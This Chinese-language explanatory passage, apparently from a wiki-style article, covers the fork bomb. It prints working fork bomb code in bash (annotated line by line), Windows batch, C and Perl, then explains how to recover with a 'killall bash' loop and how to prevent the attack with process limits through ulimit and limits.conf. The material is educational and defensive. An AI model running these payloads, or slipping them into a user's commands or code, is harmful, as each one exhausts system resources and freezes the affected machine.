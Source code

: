 注解如下：

```shell
:()      # 定义函数,函数名为":",即每当输入":"时就会自动调用{}内代码
{        # ":"函數起始字元
    :    # 用递归方式调用":"函数本身
    |    # 並用管線(pipe)將其輸出引至...（因为有一个管線操作字元，因此會生成一個新的進程）
    :    # 另一次递归调用的":"函数
# 综上,":|:"表示的即是每次調用函数":"的時候就會產生兩份拷貝
    &    # 調用間脱鉤,以使最初的":"函数被關閉後為其所調用的兩個":"函數還能繼續執行
}        # ":"函數終止字元
;        # ":"函数定义结束后将要进行的操作...
:        # 调用":"函数,"引爆"fork炸弹
```

其中函数名“:”只是简化的一例，实际上可以随意设置，一个较易理解（将函数名替换为“forkbomb”）的版本如下：

```shell
forkbomb(){ forkbomb|forkbomb & } ; forkbomb
```

Windows下则可以批处理命令如下实现：

```shell
%0|%0
```
POSIX标准下的C与C++的实现：

```cpp
#include <unistd.h>

int main()
{
  while(1)
    fork();
  return 0;
}
```

Perl语言的实现：

```perl
fork while fork
```
当然也可以“熄火”

在系统中成功“引爆”fork炸弹后，可重启来使系统恢复正常运行；而若要以手动的方法使fork炸弹“熄火”，那前提就是必须杀死fork炸弹产生的所有进程。为此我们可以考虑使用程序来杀死fork炸弹产生的进程，但由于这一般需要创建新进程，且由于fork炸弹一直在探测与占用进程槽与内存空间，因而这一方法不易实现，虽用`kill`命令杀死进程后，释放出的进程会被余下的fork炸弹线程所产生的新进程占用，但可以使用循环杀死所有进程，不过也会将无关的进程杀死

```shell
for ((tmp=1;tmp<10;tmp++));do killall bash;done
```

在Windows下，用户可以退出当前用户会话的方式使系统恢复正常，但此法奏效的前提是fork炸弹是在该用户的特定会话内触发的。

由于fork炸弹透过不断的开新进程来瘫痪系统，一个防止其严重影响系统的方法就是限定一个用户能够创建的进程数的上限，在Linux系统上，可以透过ulimit这个指令达到相应的效果，例如： `ulimit -Hu 30` 这个指令可以限制每一个用户最多只能创建30个进程，还可以通过修改配置文件`/etc/security/limits.conf`来限制可生成的最大进程数来避开这枚炸弹。而FreeBSD系统的话系统管理者可以在`/etc/login.conf`底下的配置文件进行相关的设置
